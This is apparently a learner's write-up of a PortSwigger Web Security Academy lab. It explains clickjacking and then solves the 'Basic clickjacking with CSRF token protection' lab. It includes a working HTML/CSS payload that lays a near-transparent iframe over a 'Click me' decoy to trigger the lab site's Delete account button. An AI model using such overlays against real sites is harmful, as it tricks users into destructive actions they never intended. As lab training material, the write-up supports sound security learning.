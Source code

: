# Clickjacking

## What is clickjacking?

Clickjacking is an interface-based attack in which a user is tricked into clicking on actionable content on a hidden website by clicking on some other content in a decoy website. Consider the following example:

A web user accesses a decoy website (perhaps this is a link provided by an email) and clicks on a button to win a prize. Unknowingly, they have been deceived by an attacker into pressing an alternative hidden button and this results in the payment of an account on another site. 
This is an example of a clickjacking attack. The technique depends upon the incorporation of an invisible, actionable web page (or multiple pages) containing a button or hidden link, say, within an iframe. The iframe is overlaid on top of the user's anticipated decoy web page content. This attack differs from a [CSRF](https://portswigger.net/web-security/csrf) attack in that the user is required to perform an action such as a button click whereas a [CSRF attack](https://portswigger.net/web-security/csrf) depends upon forging an entire request without the user's knowledge or input.

## **[Lab: Basic clickjacking with CSRF token protection](CORS%200cd642a5a74f4c0aa3cc08ca99b57bc8.md)**

In this scenario, I will implement a clickjacking attack to trigger a button on the target website protected with the CSRF token.

To get started, I tried logging into the target website with my credentials as usual (`wiener:peter`). Here, I identify a potential 'selling' position is the Delete account button.

![Untitled](Clickjacking%20f3af2137f8eb460285897b3892d15a1b/Untitled.png)

Then I swam over to the Exploit Server and inserted the HTML template containing the CSS Style below into the Body Section.

```jsx
<style>

    iframe {

        position:relative;

        width: $width_value;

        height: $height_value;

        opacity: $opacity;

        z-index: 2;

    }

    div {

        position:absolute;

        top: $top_value;

        left: $side_value;

        z-index: 1;

    }

</style>

<div>Click me</div>

<iframe src="$url"></iframe>
```

Once they are ready as above, I can confirm by hovering over the “Click me” button. If the pointer changes to a hand icon, my alignment is complete.

```jsx
<style>

    iframe {

        position:relative;

        width:200;

        height: 200;

        opacity: 0.0001;

        z-index: 2;

    }

    div {

        position:absolute;

        top: 150px;

        left: 70px;

        z-index: 1;

    }

</style>

<div>Click me</div>

<iframe src="https://0aef0067044a8630c10d178900890063.web-security-academy.net"></iframe>
```

To end the game, I'll need to click on Deliver exploit to victim. This would correspond to me sending an email containing a malicious link to the victim and then waiting for the target to bite